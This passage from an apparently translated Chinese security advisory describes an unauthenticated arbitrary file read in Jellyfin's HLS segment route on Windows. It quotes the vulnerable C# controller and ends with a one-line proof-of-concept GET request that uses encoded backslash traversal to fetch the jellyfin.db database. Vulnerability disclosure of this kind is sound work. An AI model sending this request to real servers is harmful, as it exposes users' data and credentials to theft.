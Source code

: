此问题可能导致未经授权的系统访问，尤其是当Jellyfin配置为[可从Internet访问时](https://jellyfin.org/docs/general/networking/index.html#running-jellyfin-behind-a-reverse-proxy)。

### 问题 2:  `/Videos/Id/hls/PlaylistId/SegmentId.SegmentContainer`未授权任意文件读取

`/Videos/{Id}/hls/{PlaylistId}/{SegmentId}.{SegmentContainer}`路由允许在Windows上读取未经身份验证的任意文件\[1\]。可以使用Windows路径分隔符（URL编码为％5C）将路由的`{SegmentId}.{SegmentContainer}`部分设置为相对或绝对路径。来自Path的`SegmentId`和文件扩展名是串联的\[2\]。生成的文件用作`Path.Combine`\[3\]的第二个参数。但是，如果第二个参数是绝对路径，则`Path.Combine`的第一个参数将被忽略，并且生成的路径仅是绝对路径文件。

攻击的先决条件是`jellyfin/transcodes`目录包含至少一个.m3u8文件\[4\]（即，某些用户开始流式传输视频，或者自上次流式传输以来一直保留在那里）。 itemId并没有被使用，并且PlaylistId必须是m3u8文件的子字符串。它可以仅仅是`m`，因为它始终位于\* .m3u8文件名中

    // 由于看到一些来自Chrome的请求而没有完整的查询字符串，因此目前尚无法进行身份验证
    // [Authenticated] //[1]
    [HttpGet("Videos/{itemId}/hls/{playlistId}/{segmentId}.{segmentContainer}")]
    //...
    public ActionResult GetHlsVideoSegmentLegacy(
        [FromRoute, Required] string itemId,
        [FromRoute, Required] string playlistId,
        [FromRoute, Required] string segmentId,
        [FromRoute, Required] string segmentContainer)
    {
        var file = segmentId + Path.GetExtension(Request.Path); //[2]
        var transcodeFolderPath = _serverConfigurationManager.GetTranscodePath();
    
        file = Path.Combine(transcodeFolderPath, file); //[3]
    
        var normalizedPlaylistId = playlistId;
    
        var filePaths = _fileSystem.GetFilePaths(transcodeFolderPath);
        // 添加.来分割容器供之后使用
        segmentContainer = segmentContainer.Insert(0, ".");
        string? playlistPath = null;
        foreach (var path in filePaths)
        {
            var pathExtension = Path.GetExtension(path);
            if ((string.Equals(pathExtension, segmentContainer, StringComparison.OrdinalIgnoreCase)
                    || string.Equals(pathExtension, ".m3u8", StringComparison.OrdinalIgnoreCase)) //[4]
                && path.IndexOf(normalizedPlaylistId, StringComparison.OrdinalIgnoreCase) != -1) //[5]
            {
                playlistPath = path;
                break;
            }
        }
    
        return playlistPath == null
            ? NotFound("Hls segment not found.")
            : GetFileResult(file, playlistPath);
    }

PoC:

    GET /Videos/anything/hls/m/..%5Cdata%5Cjellyfin.db HTTP/1.1
